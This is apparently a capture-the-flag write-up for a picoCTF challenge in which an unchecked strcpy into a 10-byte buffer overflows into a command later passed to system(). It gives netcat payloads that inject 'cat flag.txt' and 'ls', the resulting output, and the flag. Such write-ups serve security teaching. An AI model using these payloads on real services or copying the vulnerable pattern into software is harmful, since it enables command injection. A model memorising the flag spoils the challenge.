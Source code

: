 
---

## Information given

#### Description

A friendly program wants to greet you… but its goodbye might say more than it should. Can you convince it to reveal the flag?

Additional details will be available after launching your challenge instance.

#### Hints
Look closely at how the program stores and uses your input.

---
### Source Code (`vuln.c`)

```c
void fun(char *name, char *cmd) {

	char c[10];
	char buffer[10];
	
	strcpy(c, cmd);
	strcpy(buffer, name); // VULNERABLE: No bounds checking
	
	printf("Goodbye, %s!\n", buffer);
	
	fflush(stdout);
	system(c); // Executes our overwritten command

}
```

  

### Vulnerability

`strcpy(buffer, name)` on line 25.

No bounds checking allows overflow of `buffer[10]` into adjacent `c[10]` array

### Exploit Payloads

```bash

# Get the flag

echo "AAAAAAAAAAcat flag.txt" | nc saffron-estate.picoctf.net 49685

  

# List directory contents

echo "AAAAAAAAAAls" | nc saffron-estate.picoctf.net 49685

```

###  Exploitation

```bash

$ echo "AAAAAAAAAAcat flag.txt" | nc saffron-estate.picoctf.net 49685

What is your name?

Goodbye, AAAAAAAAAAcat flag.txt!

picoCTF{0v3rfl0w_c0mm4nd_d3eb7161}

```

## Flag

The flag is: `picoCTF{0v3rfl0w_c0mm4nd_d3eb7161}`.

---
